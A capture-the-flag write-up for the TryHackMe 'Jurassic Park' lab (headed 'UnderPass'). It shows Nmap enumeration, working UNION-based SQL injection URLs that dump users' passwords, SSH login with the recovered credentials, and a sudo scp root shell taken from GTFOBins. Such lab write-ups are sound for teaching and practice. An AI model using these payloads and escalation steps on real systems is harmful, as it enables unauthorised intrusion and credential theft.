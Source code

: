 # THM - UnderPass

#### Ip: 10.10.74.251
#### Name: Jurassic Park
#### Rating: Hard

----------------------------------------------------------------------

![thm_jpark_pic.jpeg](../assets/jurassic_park_assets/thm_jpark_pic.jpeg)

```
This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too.
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Jurassic_Park]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.74.251 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-31 11:22 CST
Nmap scan report for 10.10.74.251
Host is up (0.35s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 45933d22b9d6fa11d18c3a017f67a1ab (RSA)
|   256 07ed484bd9643b2602d4ac7cae9aab7f (ECDSA)
|_  256 6995e9e0d3454624ac6973722290fe3e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Jarassic Park
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.78 seconds
```

Looking at the page on port 80 we find a simple site:

thm_jpark_site.png

Following the online shop link we are redirected to http://10.10.74.251/shop.php

Clicking on purchase package we are redirected to http://10.10.74.251/item.php?id=2

Trying something like `id=2'` we trigger  this warning:

thm_jpark_nope.png

Which at the very bottom humorously has:

```
Try SqlMap.. I dare you..
```

We can confirm the page is vulnerable to SQL injection with: `http://10.10.74.251/item.php?id=1%20or%20sleep(10)`

Continuing to enumerate and also test for IDOR, we find a 'development package' as id=5:

thm_jpark_5.png

Cool. So it looks like there is some character blacklisting going on here.

### Exploitation

Beginning to try to exploit this we can see there are 5 columns:

```
http://10.10.165.197/item.php?id=1%20union%20select%201,2,3,4,5
```

Because we know that the `@` sign is blocked, we can get the Mysql version using `select version()`: 

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,version(),3,4,5
```

thm_jpark_version.png

We can also begin enumerating the DB with `database()`:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,database(),3,4,5
```

thm_jpark_db.png

Viewing the tables:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,TABLE_NAME,TABLE_SCHEMA,4,5%20from%20INFORMATION_SCHEMA.TABLES%20where%20table_schema=%22park%22
```

thm_jpark_tables.png

Columns:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,group_concat(COLUMN_NAME),TABLE_NAME,4,5%20from%20INFORMATION_SCHEMA.COLUMNS%20where%20table_name=%22users%22
```

thm_jpark_columns.png

Note, we need to use the `group_concat` here

Cool, so now we see the columns username and password.

The string `username` is being blacklisted, but we know we are looking for the password for user Dennis, so let's take a look at the password column:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,%20group_concat(password),%203,%204,5%20from%20park.users
``` 
thm_jpark_pass.png

We now have the passwords D0nt3ATM3 and ih8dinos

We can login to SSH with `dennis:ih8dinos`

```
┌──(ryan㉿kali)-[~/THM/Jurassic_Park]
└─$ ssh dennis@10.10.165.197 
```

And grab the flag1.txt flag:

thm_jpark_flag1.png

### Privilege Escalation

Seeing what user dennis can run with elevated permissions we see he can run `scp` as root:

```
dennis@ip-10-10-165-197:/var/www/html$ sudo -l
Matching Defaults entries for dennis on ip-10-10-165-197.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-165-197.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
dennis@ip-10-10-165-197:/var/www/html$ cd /tmp
```

We can head to https://gtfobins.github.io/gtfobins/scp/#sudo for the commands we'll need to exploit this
```
dennis@ip-10-10-165-197:/tmp$ TF=$(mktemp)
dennis@ip-10-10-165-197:/tmp$ echo 'sh 0<&2 1>&2' > $TF
dennis@ip-10-10-165-197:/tmp$ chmod +x "$TF"
dennis@ip-10-10-165-197:/tmp$ sudo /usr/bin/scp -S $TF x y:
# whoami
root
# hostname
ip-10-10-165-197
```

We can then grab flag5:

thm_jpark_flag5.png

Going back to find the other flags we find flag2's location in `.viminfo`:

```
# File marks:
'0  1  37  ~/.bash_history
'1  2  18  ~/test.sh
'2  2  18  /home/ubuntu/test.sh
'3  1802  31  /tmp/flagFour.txt
'4  1  63  ~/flag1.txt
'5  1  31  /boot/grub/fonts/flagTwo.txt
'6  1  0  /var/www/html/index.php
```

thm_jpark_flag2.png

And we can also find flag3 in `.bash_history`

thm_jpark_flag3.png

Thanks for following along!

-Ryan

-----------------------------------
